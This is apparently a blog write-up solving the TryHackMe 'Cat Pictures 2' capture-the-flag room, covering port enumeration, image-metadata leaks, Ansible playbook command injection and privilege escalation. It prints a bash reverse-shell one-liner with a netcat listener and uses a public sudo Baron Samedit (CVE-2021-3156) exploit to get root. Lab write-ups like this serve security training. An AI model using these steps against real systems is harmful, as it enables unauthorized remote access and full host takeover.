 ```yaml
---
title: "Cat Pictures 2 TryHackMe"
collection: publications
permalink: /publication/cat-pictures-2
excerpt: 'This is a free room from TryHackMe'
date: 2023-07-07
venue: '07-07'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/catpictures2.png)

**LINK :** [Cat Pictures 2](https://tryhackme.com/room/catpictures2)



# Enumeration

* Started by running an Nmap scan :

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 07:21 EDT
Nmap scan report for 10.10.130.123
Host is up (0.064s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
1337/tcp open  http    OliveTin
3000/tcp open  ppp?
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
```

The scan reveals 6 open ports :

 * ``ssh`` running on port 22.
 * ``nginx`` on port 80.
 * ``ssh`` on port 222.
 * ``OliveTin`` on port 1337 to access predefined shell commands from a a web interface.
 * ``Gitea`` on port 3000.
 * ``nginx`` default page on port 8080.


---

* On port 80 we have a ``Lychee`` photo album with cat pictures, and since this room is about cats, it must be our way to get the first flag.
* I downloaded all the cats pictures and run ``exiftool`` to read the metadata of these pictures.

```bash
exiftool *.jpg
```
![catpictures1](/images/cat_pictures1.png)

* I noticed that one of these pictures revealed the path to a text file on port ``8080``.

* Checking the text file, we found the credentials to access ``gitea``.

![catpictures2](/images/cat_pictures2.png)

# FLAG 1 :

* After gaining the access to the user's account we found, you will see a file named ``flag1.txt`` in ``ansible`` repository.

![catpictures3](/images/cat_pictures3.png)

# FLAG 2 :

* Checking the Ansible playbook, you will notice it contains a ``command`` line. so the idea here is to change the command and run the playbook from the ``OliveTin`` page on port ``1337`` to see if the command is getting executed.

> [Ansible playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)

![catpictures4](/images/cat_pictures4.png)

![catpictures5](/images/cat_pictures5.png)

![catpictures6](/images/cat_pictures6.png)

* Since the command is getting executed, we can run a reverse shell to us.

```bash
bash -c "bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1"
```
![catpictures7](/images/cat_pictures7.png)

* Before you run the ansible playbook, let's open a netcat listener

```bash
nc -lvnp 4444
```
![catpictures8](/images/cat_pictures8.png)

# FLAG 3 :

* In order to speed things up, let's run ``linpeas`` to see if we have a privilege escalation vector.

> [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

* The one that stood out is ``the sudo Baron Samedit``.

![catpictures9](/images/cat_pictures9.png)

* I downloaded this [exploit](https://github.com/blasty/CVE-2021-3156) and uploaded it to the target machine.

```bash
make
```
![catpictures10](/images/cat_pictures10.png)

* let's run ``sudo-hax-me-a-sandwic``

```bash
.\sudo-hax-me-a-sandwic 0
```
![catpictures11](/images/cat_pictures11.png)

* Now we are root, change directory to ``/root`` and get your 3rd flag.




